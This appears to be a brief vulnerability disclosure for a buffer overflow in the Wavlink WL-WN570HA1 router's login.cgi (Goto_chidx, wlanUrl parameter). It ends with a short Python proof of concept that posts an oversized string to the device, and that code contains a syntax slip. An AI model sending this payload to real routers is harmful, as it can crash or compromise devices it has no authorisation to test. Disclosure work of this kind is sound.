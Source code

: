 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a buff overflow in login.cgi/Goto_chidx

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](8.png)

get value from wlanUrl

and call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
``` 
